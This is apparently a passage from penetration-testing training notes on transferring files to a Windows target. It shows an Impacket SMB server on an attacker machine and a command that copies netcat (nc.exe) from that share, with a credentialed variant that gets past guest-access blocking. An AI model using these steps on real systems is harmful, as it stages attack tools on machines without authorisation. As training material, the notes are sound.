 ```sh
$ python3 -m uploadserver

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### SMB Downloads
* create an SMB server in our Pwnbox with [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) from Impacket and then use `copy`, `move`, PowerShell `Copy-Item`, or any other tool that allows connection to SMB

```sh
$ sudo impacket-smbserver share -smb2support /tmp/smbshare

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

#### Copy a File from the SMB Server
```powershell
C:\htb> copy \\192.168.220.133\share\nc.exe

        1 file(s) copied.
```

* Newer versions of Windows block unauthenticated guest access

```powershell
C:\htb> copy \\192.168.220.133\share\nc.exe

You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```

* We can set a username and password using our Impacket SMB server and mount the SMB server on our windows target machine

```sh
$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
